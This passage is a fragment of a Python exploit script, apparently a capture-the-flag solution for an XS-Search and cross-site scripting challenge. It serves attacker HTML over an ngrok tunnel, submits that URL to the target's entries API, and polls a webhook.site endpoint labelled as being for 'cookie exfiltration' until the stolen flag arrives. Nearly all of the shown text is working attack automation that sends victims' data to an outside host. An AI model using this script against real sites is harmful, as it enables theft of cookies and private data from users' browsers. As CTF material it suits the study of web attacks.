 ```python
</script>
</body>
</html>
"""

def serve_content(host_port, content,content_type="text/html"):
	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return
		def log_message(self, format, *args):
			pass
	class _TCPServer(TCPServer):
		allow_reuse_address = True
	httpd = _TCPServer(host_port, CustomHandler)
	httpd_thread = Thread(target=httpd.serve_forever)
	httpd_thread.setDaemon(True)
	httpd_thread.start()

class WEBHOOK:
	def __init__(self):
		self.url = "http://webhook.site"
		try:
			resp = requests.post('{}/token'.format(self.url), json={"actions": True, "alias": "xss-poc", "cors": False}, timeout=15)
			self.token = resp.json()['uuid']
		except:
			print("[!] Couldn't reach webhook.site, please make sure we have internet access!")
			sys.exit()

	def get_flag(self):
		try:
			resp = requests.get('{}/token/{}/request/latest'.format(self.url,self.token), timeout=15)
			flag = resp.json()['query']['flag']
		except:
			return False
		return flag

	def destroy(self):
		requests.delete('{}/token/{}'.format(self.url,self.token), timeout=15)



print('\n[+] Preparing a webook URL for cookie exfiltration..')
webhook = WEBHOOK()

print("[+] Hosting the exploit HTML file with a Python3 Server..")
exploitHTML = exploitHTML.replace('WEBHOOK_TOKEN',webhook.token)
serve_content(('localhost',8808), exploitHTML)

print("[+] Creating an ngrok tunnel for a public URL..")
expTunnel = ngrok.connect(8808)

print("[+] Submitting exploit URL: %s .." % expTunnel.public_url)
resp = requests.post('%s/api/entries' % hostURL, json={"url": expTunnel.public_url})

print('[+] Waiting for the XS-Search brute-force and flag to arrive on webhook..')
while True:
	flag = webhook.get_flag()
```